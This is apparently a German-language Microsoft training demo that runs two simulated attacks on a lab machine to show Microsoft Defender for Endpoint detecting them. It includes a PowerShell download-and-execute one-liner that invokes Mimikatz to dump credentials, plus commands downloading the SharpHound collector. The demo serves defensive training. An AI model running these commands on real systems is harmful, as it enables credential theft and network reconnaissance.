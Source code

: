 # Demo zu Modul 2 – Abwehr von Bedrohungen mithilfe von Microsoft Defender for Endpoint

**Hinweis:** Der erfolgreiche Abschluss dieser Demo hängt davon ab, alle Schritte im  [Dokument](00-prerequisites.md) „Voraussetzungen“ abzuschließen.

## Simulierte Angriffe

In dieser Aufgabe führen Sie zwei simulierte Angriffe aus, um die Funktionen von Microsoft Defender for Endpoint zu erkunden.

1. Wenn Sie noch nicht im Microsoft Defender XDR-Portal in Ihrem Microsoft Edge-Browser sind, navigieren Sie unter https://security.microsoft.com) zu Microsoft Defender for XDR und melden sich als Administrator*in für Ihren Mandanten an.

Sie führen die *simulierten* Angriffe mit *PowerShell* auf *WIN1* aus, um die Funktionen von Microsoft Defender for Endpoint zu erkunden.

`Attack 1: Mimikatz - Credential Dumping`

1. Geben Sie auf dem Computer *WIN1* die Zeichenfolge **Command** in die Suchleiste ein, und wählen Sie**Als Administrator ausführen** aus.

1. Kopieren Sie den folgenden Befehl, fügen Sie ihn in das Fenster **Administrator: Eingabeaufforderung** ein, und drücken Sie die **EINGABETASTE**, um ihn auszuführen.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Es sollte die Meldung *Zugriff verweigert* und eine Popupnachricht von `Microsoft Defender Antivirus, Windows Security Virus and threats protection` angezeigt werden, dass *Bedrohungen gefunden* wurden.

1. Schließen Sie das Fenster **Administrator: Eingabeaufforderung** durch Eingabe von **exit** und Drücken der **EINGABETASTE**.

`Attack 2: Bloodhound - Collection`

1. Geben Sie auf dem Computer *WIN1* die Zeichenfolge **PowerShell ** in die Suchleiste ein, und wählen Sie **Windows PowerShell** und dann **Als Administrator ausführen** aus.

1. Kopieren Sie die folgenden Befehle, fügen Sie sie in das Fenster **Administrator: Windows PowerShell** ein, und drücken Sie die **EINGABETASTE**, um sie auszuführen.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Hinweis:** Es wird empfohlen, die Befehle einzeln zu kopieren, einzufügen und auszuführen. Dazu können Sie *Editor* öffnen und die Befehle in eine temporäre Datei kopieren. Der erste Befehl erstellt einen Ordner namens *ExternalPayloads* in dem Ordner, in dem sich der Ordner *Atomic Red Team* befindet. Der zweite Befehl lädt die Datei *SharpHound.ps1* aus dem GitHub-Repository *BloodHound* herunter und speichert sie im Ordner *ExternalPayloads*.

1. Es sollte eine Popupmeldung von `Windows Security Virus and threats protection` angezeigt werden, dass *Bedrohungen gefunden* wurden.

1. Kopieren Sie den folgenden Befehl, fügen Sie ihn in das Fenster **Administrator: Windows PowerShell** ein, und drücken Sie die **EINGABETASTE**, um sie auszuführen.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Wenn die Ausgabe *True* lautet, wurde die Datei mit den Schadsoftwarenutzdaten von Microsoft Defender Antivirus nicht entfernt. Wenn die Ausgabe *False* lautet, wurde die Datei mit den Schadsoftwarenutzdaten von Microsoft Defender Antivirus entfernt. Verwenden Sie die NACH-OBEN-TASTE, um den Befehl zu wiederholen, bis die Ausgabe *False* lautet.

## Damit haben Sie die Demo beendet
